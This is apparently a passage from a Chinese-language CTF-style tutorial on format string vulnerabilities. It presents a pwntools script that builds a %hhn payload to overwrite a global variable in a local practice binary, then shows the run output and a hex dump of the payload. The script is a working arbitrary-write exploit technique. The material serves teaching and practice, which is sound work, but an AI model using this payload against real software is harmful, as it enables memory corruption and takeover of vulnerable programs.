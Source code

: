 - 在程序中需要对pad的大小进行计算，如果pad大小应为x，则使用`%xc`输出x个字符，如果当前已输出字符数过大，则再输出过量字符，以`0xff`为上界溢出

```python
from pwn import *  # 将 overwrite.c 中的全局变量 b 覆盖为 0x12345678
def fmt(prev, word, index): # 构造 padx + '%k$hhn'
    # prev: 前一个写入的数字[0, 0xff]
    # word: 将要写入的数字[0, 0xff]  # 利用类似 %kc / %5c 补充 k / 5 个字符
    # index: 该数字将要写入的地址存在第 index 个参数(相对于fmt str指针来说)
    fmtstr = b""
    if(prev < word):  # 前一个数字 比 将要写入的数字 小
        result = word - prev  # 追加输出相差的字符数 word - prev 个
        fmtstr = b"%" + bytearray(str(result), "ascii") + b"c" # 构造 %xc 输出 x 个char
    elif(prev == word):  # 前一个数字 和 将要写入的数字 相等，不需要追加输出字符
        pass  # 直接跳到构造 %k$hhn 的步骤，写入的数字与前一个相同
    else:  # prev > word # 前一个数字 比 将要写入的数字 大
        result = 256 + word - prev  # 以 0xff 为上限溢出
        fmtstr = b"%" + bytearray(str(result), "ascii") + b"c" # 构造 %xc 输出 x 个char
    fmtstr += b"%" + bytearray(str(index), "ascii") + b"$hhn"  # 构造 %k$hhn
    return fmtstr

def fmt_str(offset, size, addr, target): # 构造整个payload 
    # offset: 要覆盖的地址最初的偏移; size:机器字长; addr: 将要覆盖的地址; target: 要覆盖为的目的变量值
    payload = b""
    for i in range(4):
        if(size == 4):
            payload += p32(addr + i)  # 32bit 程序
        else:
            payload += p64(addr + i)  # 64bit 程序
    print(payload.hex())  # 28a0040829a004082aa004082ba00408 # 此时payload内容为4个地址
    prev = len(payload)  # 0x10 # 4个32bit的地址 4*4B = 0x10 B
    for i in range(4):
        # 具体传参: 0x10 0x78 0x6; 0x78 0x56 0x7; 0x56 0x34 0x8; 0x34 0x12 0x9
        payload += fmt(prev, (target >> i * 8) & 0xff, offset + i)
        prev = (target >> i * 8) & 0xff
    return payload

def forb(): # exploit
    sh = process('./overwrite')
    payload = fmt_str(6, 4, 0x0804A028, 0x12345678)  # 0x0804A028：全局变量b的地址，IDA分析可得
    print("payload:", payload, "\npayload:", payload.hex())
    sh.sendline(payload)
    print(sh.recv())
    sh.interactive()

context.log_level = "DEBUG"
forb()
```

- 上方脚本的运行结果如下: 

```bash
$ python overwrite.py # 将 overwrite.c 中的全局变量 b 覆盖为 0x12345678
[+] Starting local process './overwrite' argv=[b'./overwrite'] : pid 2582229
28a0040829a004082aa004082ba00408 # 0804A028 为全局变量 b 的地址
payload: b'(\xa0\x04\x08)\xa0\x04\x08*\xa0\x04\x08+\xa0\x04\x08%104c%6$hhn%222c%7$hhn%222c%8$hhn%222c%9$hhn'
payload: 28a0040829a004082aa004082ba00408253130346325362468686e253232326325372468686e253232326325382468686e253232326325392468686e
[DEBUG] Sent 0x3d bytes:
    00000000  28 a0 04 08  29 a0 04 08  2a a0 04 08  2b a0 04 08  │(···│)···│*···│+···│
    00000010  25 31 30 34  63 25 36 24  68 68 6e 25  32 32 32 63  │%104│c%6$│hhn%│222c│
    00000020  25 37 24 68  68 6e 25 32  32 32 63 25  38 24 68 68  │%7$h│hn%2│22c%│8$hh│
